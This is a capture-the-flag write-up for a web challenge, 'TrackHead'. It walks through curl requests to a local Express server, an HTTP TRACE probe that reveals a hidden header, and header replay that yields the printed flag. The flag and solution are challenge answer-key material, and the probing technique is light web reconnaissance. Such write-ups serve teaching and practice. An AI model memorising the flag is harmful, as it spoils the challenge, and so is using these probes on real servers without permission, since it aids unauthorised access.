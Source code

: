 # **TrackHead**

Category: Web

Author: Utkar5hM

Answer / Flag: `MAZE{TRAC3DTH3F0RC3WITHHE4DERS}`

## Problem Statement

Help Baby yoda balance the force.


## Solution

sending a curl request to the endpoint:
```sh
curl http://127.0.0.1:3000/
Found. Redirecting to /NeverEver
```
we Notice, we get redirected to /NeverEver.

trying to visit /NeverEver. We get the text `You will need to balance the force. Try tracing the path of it.` and a Yoda's image with RFC and 2616 as texts.

Searching for RFC2616 will lead the user to the RFC of HTTP protocol where various requests types have been defined.

The text hints us about tracing of the path. so first thing we can do is make a curl request again at `/` with higher verbosity.
```sh
curl http://127.0.0.1:3000/ -v
* processing: http://127.0.0.1:3000/
*   Trying 127.0.0.1:3000...
* Connected to 127.0.0.1 (127.0.0.1) port 3000
> GET / HTTP/1.1
> Host: 127.0.0.1:3000
> User-Agent: curl/8.2.1
> Accept: */*
> 
< HTTP/1.1 302 Found
< X-Powered-By: Express
< Light: 8201
< Balance: M0LcoTq0uZE2GWKrqnx+z4sbKEI=
< Location: /NeverEver
< Vary: Accept
< Content-Type: text/plain; charset=utf-8
< Content-Length: 32
< Date: Wed, 09 Aug 2023 18:43:22 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
* Connection #0 to host 127.0.0.1 left intact
```

We can see two interesting headers,  Balance and Light. Both of them seem to change everytime I make a request.

Let's try to send the Balance back as a header.
```sh
curl http://127.0.0.1:3000/ -v -H 'balance: M0LcoTq0uZE2GWKrqnx+z4sbKEI='
* processing: http://127.0.0.1:3000/
*   Trying 127.0.0.1:3000...
* Connected to 127.0.0.1 (127.0.0.1) port 3000
> GET / HTTP/1.1
> Host: 127.0.0.1:3000
> User-Agent: curl/8.2.1
> Accept: */*
> balance: M0LcoTq0uZE2GWKrqnx+z4sbKEI=
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 37
< ETag: W/"25-5ILxh+dr7iU0O70ee2dgi6FdQlQ"
< Date: Wed, 09 Aug 2023 18:45:16 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
* Connection #0 to host 127.0.0.1 left intact
I find your lack of faith disturbing.[user@g14arch Systems-2023]$ 

```

we don't get redirected but get a different output but this again tells us we might've missed something.

Lets try sending DARK header with value same as respective light along with balance header. as we're trying to balance of something.

```sh
curl http://127.0.0.1:3000/ -v -H 'Balance: kcuLTJN3J/40/iKaRPp01o7mtyM=' -H 'DARK: 4466'
* processing: http://127.0.0.1:3000/
*   Trying 127.0.0.1:3000...
* Connected to 127.0.0.1 (127.0.0.1) port 3000
> GET / HTTP/1.1
> Host: 127.0.0.1:3000
> User-Agent: curl/8.2.1
> Accept: */*
> Balance: kcuLTJN3J/40/iKaRPp01o7mtyM=
> DARK: 4466
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 37
< ETag: W/"25-5ILxh+dr7iU0O70ee2dgi6FdQlQ"
< Date: Wed, 09 Aug 2023 18:49:59 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
* Connection #0 to host 127.0.0.1 left intact
I find your lack of faith disturbing.
```

There's no difference in the output.

There is a TRACE request method mentioned under RFC2616 which is often used for diagnosing. This usually helps us see the request which is exactly been received by the server. Helps in case if the server owner is using any proxy in between.

Sending a trace request.
```sh
curl http://127.0.0.1:3000/ -v -X TRACE
* processing: http://127.0.0.1:3000/
*   Trying 127.0.0.1:3000...
* Connected to 127.0.0.1 (127.0.0.1) port 3000
> TRACE / HTTP/1.1
> Host: 127.0.0.1:3000
> User-Agent: curl/8.2.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< d4rk: Don't Miss me :p
< Content-Type: text/html; charset=utf-8
< Content-Length: 86
< ETag: W/"56-lZrfKLXpo2lOIX85K1V/gtDYji4"
< Date: Wed, 09 Aug 2023 18:47:54 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
Some people say d4rk can be balanced with light.

  "Rebellions are built on hope."
* Connection #0 to host 127.0.0.1 left intact
```

It hints us with d4rk header and as well as with text.

Trying to send the request:
```sh
curl http://127.0.0.1:3000/ -v -H 'Balance: kcuLTJN3J/40/iKaRPp01o7mtyM=' -H 'd4rk: 4466'
* processing: http://127.0.0.1:3000/
*   Trying 127.0.0.1:3000...
* Connected to 127.0.0.1 (127.0.0.1) port 3000
> GET / HTTP/1.1
> Host: 127.0.0.1:3000
> User-Agent: curl/8.2.1
> Accept: */*
> Balance: kcuLTJN3J/40/iKaRPp01o7mtyM=
> d4rk: 4466
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 31
< ETag: W/"1f-I1gzt/o2hkYmamxafLeIP407/J8"
< Date: Wed, 09 Aug 2023 18:53:42 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
* Connection #0 to host 127.0.0.1 left intact
MAZE{TRAC3DTH3F0RC3WITHHE4DERS}
```

We get the flag. :) 